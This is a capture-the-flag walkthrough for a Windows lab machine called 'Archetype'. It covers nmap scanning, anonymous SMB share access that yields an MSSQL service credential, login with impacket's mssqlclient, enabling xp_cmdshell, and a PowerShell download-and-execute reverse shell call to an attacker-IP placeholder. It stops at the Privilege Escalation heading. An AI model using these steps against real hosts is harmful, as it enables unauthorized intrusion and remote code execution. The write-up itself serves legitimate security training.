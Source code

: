 # Archetype
AUTHOR: egre55
## Discription
Difficulty: Very Easy

OS: Windows
## Walkthrough
### 1. Enumeration
First, take some scanning on host:
```bash
$ nmap -sC -sV 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 10:44 +07
Nmap scan report for 10.10.10.27
Host is up (1.3s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1234/tcp open  hotline?
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-09-12T02:39:54
|_Not valid after:  2051-09-12T02:39:54
|_ssl-date: 2021-09-12T04:10:04+00:00; +24m51s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                
Host script results:
|_clock-skew: mean: 1h48m51s, deviation: 3h07m51s, median: 24m50s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-11T21:09:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-12T04:09:45
|_  start_date: N/A
```
As we can see, there are 5 open ports 135, 139, 445, 1234, 1433 and we also got some additional information such as domain, OS, Server version,...

Do a bit research about these ports and I found that:
- 135: MS-RPC endpoint mapper
- 139: NetBIOS Session Service
- 445: SMB protocol *(further reading: [NetBIOS and SMB Penetration Testing on Windows](https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/))*
- 1234: I still have no idea what is this port used for :v *([TCP 1234 - Port Protocol Information and Warning!](https://www.auditmypc.com/tcp-port-1234.asp))*
- 1433: MS-SQL Server

Basically, port 135 is used for sending messages between client-client and client-server. Port 139 is used for managing NetBIOS session. At simple approach, we focus on port 445 and 1433.

Now I try listing shares available on a host with `smbclient` and found a share file called `prod.dtsConfig` in folder `backups`.
```bash
$ smbclient -N -L \\\\10.10.10.27\\

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available

$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 19:20:57 2020
  ..                                  D        0  Mon Jan 20 19:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 19:23:02 2020

                10328063 blocks of size 4096. 8260225 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
```
Let's take a look at the downloaded file, it's an XML configuration file for SQL Server.
> Read more: [DTSCONFIG File Extension](https://fileinfo.com/extension/dtsconfig)
```bash
$ cat prod.dtsConfig 
<DTSConfiguration>
	<DTSConfigurationHeading>
		<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
	</DTSConfigurationHeading>
	<Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
		<ConfiguredValue>Data Source=.;Password=***********;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	</Configuration>
</DTSConfiguration>
```
As we see, the file contains a user credential: `sql_svc:<password>`.
> I won't share any credential or flag to not ruin your experience :v
### 2. Foothold
With the credential we just have got from previous step, try to access to SQL Server on port 1433 with `mssqlclient.py` or any tool that you're familiar with.
```bash
$ mssqlclient.py -p 1433 ARCHETYPE/sql_svc:<password>@10.10.10.27 -windows-auth
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL>
```
First thing to do is to check if the user has system admin privilege.
```bash
SQL> select is_srvrolemember ('sysadmin');

-----------
          1		==> User has system admin privilege!

SQL>
```
So, user has system admin privilege, next thing we want to do is to enable xp_cmdshell, which allow us to execute command lines on target.
```bash
SQL> enable_xp_cmdshell
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
archetype\sql_svc

SQL>
```
For a more convenient and stable connection, we will set up a reverse shell on target machine. There are many shell script that available on the Internet, find yourself one and save it as `shell.ps1`. I took it from this site: [Shells - Windows](https://book.hacktricks.xyz/shells/shells/windows).

If you've never heard of 'reverse shell', this would be helpful: [Understanding Reverse Shells](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/).
> What is .ps1 extention?
> 
> - [PS1 File Extension](https://fileinfo.com/extension/ps1)
> 
> - [Differences between commands run in .bat file and powershell.exe](https://stackoverflow.com/questions/48215483/differences-between-commands-run-in-bat-file-and-powershell-exe)

Open http server for SQL Server to get the script
```bash
$ python3 -m http.server 8080
```

Open listening port for catching reverse shell
```bash
$ nc -lnvp <port>
```

Execute reverse shell from SQL Server
```bash
SQL> xp_cmdshell "powershell "IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>:8080/path_to_shell.ps1')""
```

### 3. Privilege Escalation
